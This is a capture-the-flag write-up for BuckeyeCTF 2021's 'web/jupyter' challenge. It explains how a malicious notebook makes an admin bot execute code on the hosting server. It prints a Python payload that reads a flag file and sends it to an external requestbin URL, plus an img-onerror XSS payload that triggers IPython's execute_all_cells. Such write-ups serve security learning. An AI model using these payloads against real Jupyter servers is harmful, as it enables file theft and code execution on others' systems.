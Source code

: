 # BuckeyeCTF 2021 - `web/jupyter`

## Task Description

Upload a Jupyter notebook and the admin bot will take a look at it :)

URL: http://3.21.105.111

Note: Try to be gentle with the server

## Solution Summary

Use HTML cell to place XSS on the Jupyter notebook which forces the bot to run a code cell with Python code that exfiltrates the flag.

## Task Analysis

This challenge contains two components: the `app` and the `bot`. The `app` is a web app that serves a simple file upload for [Jupyter notebooks](https://jupyter.org/),
which are documents that contain Python code cells and display their output.

![alt text](https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/upload.png)

This will post it to the `/upload_ipynb` endpoint on the app. The file will be given a random name ending in `.ipynb` and written to an uploads folder.
The notebook will then be ran with `jupyter trust` and served at the URL `"{APP_URL}:8888/notebooks/{filename}"`.
The app will then post to the bot's `/visit` endpoint with the URL of the notebook it is hosting in the body.
Note that only the app server can send requests to this endpoint as it has to send a secret `BOT_TOKEN` along with it.

When the bot receives a valid URL on this endpoint, it will visit it using Puppeteer.
After a timeout, it will then call `window.IPython.notebook.close_and_halt()` to gracefully stop and close the Jupyter notebook that it is viewing.

The app also a contains `run.sh` which immediately moves the file containing the flag to `/flag_{rand}.txt`, where `rand` is a random hex string.
Our goal therefore is to read this file.

## Solution Walkthrough

Since Jupyter notebooks contain code cells that execute Python code on the local machine, we should be able to get the flag if the bot runs a code cell while viewing the Jupyter notebook.
Even though the bot is viewing the notebook, executed code cells will run on the app, since the app is the server hosting the Jupyter notebook.
This is good because the app has the flag file, not the bot.

I created a new notebook by downloading Jupyter and running `jupyter notebook` to open my own web enviornment.
I then wrote a simple Python payload in a code cell that exfiltrates the flag.

```python
import urllib
import glob

endpoint = 'https://enbnoedu5p8tj.x.pipedream.net/'

path = "/flag*.txt"
flag = ''

for filename in glob.glob(path):
    with open(filename, 'r') as f:
        flag = f.readline()

urllib.request.urlopen(endpoint + flag)
```

The purpose of `glob` is to find the flag's filename, since part of the filename is random.
The content of this file is then read and sent to a server created with [request.bin](https://requestbin.com/).

This code cell works when the user decides to run it.
However, there is still a problem: when the bot reads the Jupyter notebook, it doesn't actually run any of the code cells.

I noticed in the bot that `window.IPython.notebook.close_and_halt()` gets called in order to stop the notebook.
This implies that Jupyter has some Javascript functions that we could possibly leverage to get the bot to run the code cell.
After some digging, I found that running the Javascript `IPython.notebook.execute_all_cells()` on the page will run all code cells.
I tried to write a script that would execute only one cell, but I had issues with this working consistently.

Now all we need is some XSS on our Jupyter notebook page to run this Javascript.
I found that in Jupyter you can have a code cell output HTML by using the following syntax in a code cell.

```html
%%html
<!--
HTML goes here
-->
```

The HTML outputed when this code cell is ran will actually persist even if the notebook is closed and reopened (as long as you save it beforehand).
This generated HTML could be the perfect place to get some XSS running.

When I tried running my XSS using `script` tags, I sometimes had issues with the page not running the script or running it at the wrong time.
There are probably many different ways of solving this (I think you can even edit the notebook's source code directly),
but I decided to just use the quick solution of having an invalid `img` element that runs my XSS payload via `onerror`.

```html
%%html
<img src='http://example.com' onerror='if(!window.loaded) IPython.notebook.execute_all_cells(); window.loaded = true' />
```

The purpose of creating the `window.loaded` variable is just so that the script doesn't keep running itself.
Since I am executing **all** cells, the HTML will be regenerated and the event will fire again.

This had the desired effect of running all of the cells whenever I opened the notebook!
Thus all that was left was to upload this to the app server and have the bot open it for me and send me the flag.



